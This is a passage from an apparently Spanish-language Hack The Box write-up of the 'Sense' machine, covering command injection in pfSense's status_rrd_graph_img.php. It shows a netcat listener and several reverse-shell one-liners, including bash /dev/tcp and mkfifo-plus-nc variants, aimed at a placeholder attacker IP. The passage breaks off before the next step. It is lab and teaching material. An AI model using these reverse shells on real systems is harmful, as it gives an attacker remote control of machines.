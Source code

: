 <p align="center">
<img src="/assets/images/htb-writeup-sense/Captura17.png">
</p>

```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.60] 38798
- &
```

Excelente, ahora solo es cuestión de ocupar una **Reverse Shell** que nos permita ganar acceso a la máquina, suplantando los caracteres especiales que no interpreta por lo que ya tenemos.

En mi caso, probe las siguientes:
```bash
-> bash -i >& /dev/tcp/Tu_IP/443 0>&1

-> nc Tu_IP 443 -e bash

-> exec 5<>/dev/tcp/Tu_IP/443;cat <&5 | while read line; do $line 2>&5 >&5; done
```
Y ninguna funciono a excepción de esta:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc Tu_IP 443 >/tmp/f
```
Quiero pensar, que esta se acomoda perfectamente a como funciona la vulnerabilidad encontrada, pues mencionan algo de que se va a ejecutar cualquier comando que inyectes, después del **comando rm** del **script status_rrd_graph_img.php** hasta que metas un **slash(/)**, que es cuando ya no se ejecuta nada.

Probemos esta **Reverse Shell**, por pasos:
